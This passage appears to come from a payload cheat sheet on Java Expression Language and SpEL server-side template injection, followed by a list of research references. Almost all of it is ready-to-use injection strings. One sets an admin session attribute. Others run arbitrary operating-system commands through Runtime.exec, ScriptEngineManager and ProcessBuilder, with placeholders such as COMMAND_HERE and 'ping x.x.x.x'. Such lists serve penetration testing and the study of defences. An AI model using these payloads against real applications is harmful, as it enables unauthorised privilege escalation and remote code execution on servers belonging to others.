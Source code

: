 Modify session attributes

```java
${pageContext.request.getSession().setAttribute("admin",true)}
```

### SpEL - Command Execution

- Method using `java.lang.Runtime` #1 - accessed with JavaClass

    ```java
    ${T(java.lang.Runtime).getRuntime().exec("COMMAND_HERE")}
    ```

- Method using `java.lang.Runtime` #2

    ```java
    #{session.setAttribute("rtc","".getClass().forName("java.lang.Runtime").getDeclaredConstructors()[0])}
    #{session.getAttribute("rtc").setAccessible(true)}
    #{session.getAttribute("rtc").getRuntime().exec("/bin/bash -c whoami")}
    ```

- Method using `java.lang.Runtime` #3 - accessed with `invoke`

    ```java
    ${''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(''.getClass().forName('java.lang.Runtime')).exec('COMMAND_HERE')}
    ```

- Method using `java.lang.Runtime` #3 - accessed with `javax.script.ScriptEngineManager`

    ```java
    ${request.getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("js").eval("java.lang.Runtime.getRuntime().exec(\\\"ping x.x.x.x\\\")"))}
    ```

- Method using `java.lang.ProcessBuilder`

    ```java
    ${request.setAttribute("c","".getClass().forName("java.util.ArrayList").newInstance())}
    ${request.getAttribute("c").add("cmd.exe")}
    ${request.getAttribute("c").add("/k")}
    ${request.getAttribute("c").add("ping x.x.x.x")}
    ${request.setAttribute("a","".getClass().forName("java.lang.ProcessBuilder").getDeclaredConstructors()[0].newInstance(request.getAttribute("c")).start())}
    ${request.getAttribute("a")}
    ```

## References

- [Server Side Template Injection – on the example of Pebble - Michał Bentkowski - September 17, 2019](https://research.securitum.com/server-side-template-injection-on-the-example-of-pebble/)
- [Server-Side Template Injection: RCE For The Modern Web App - James Kettle (@albinowax) - December 10, 2015](https://gist.github.com/Yas3r/7006ec36ffb987cbfb98)
- [Server-Side Template Injection: RCE For The Modern Web App (PDF) - James Kettle (@albinowax) - August 8, 2015](https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf)
- [Server-Side Template Injection: RCE For The Modern Web App (Video) - James Kettle (@albinowax) - December 28, 2015](https://www.youtube.com/watch?v=3cT0uE7Y87s)
- [VelocityServlet Expression Language injection - MagicBlue - November 15, 2017](https://magicbluech.github.io/2017/11/15/VelocityServlet-Expression-language-Injection/)
- [Bean Stalking: Growing Java beans into RCE - Alvaro Munoz - July 7, 2020](https://securitylab.github.com/research/bean-validation-RCE)
- [Bug Writeup: RCE via SSTI on Spring Boot Error Page with Akamai WAF Bypass - Peter M (@pmnh_) - December 4, 2022](https://h1pmnh.github.io/post/writeup_spring_el_waf_bypass/)
- [Expression Language Injection - OWASP - December 4, 2019](https://owasp.org/www-community/vulnerabilities/Expression_Language_Injection)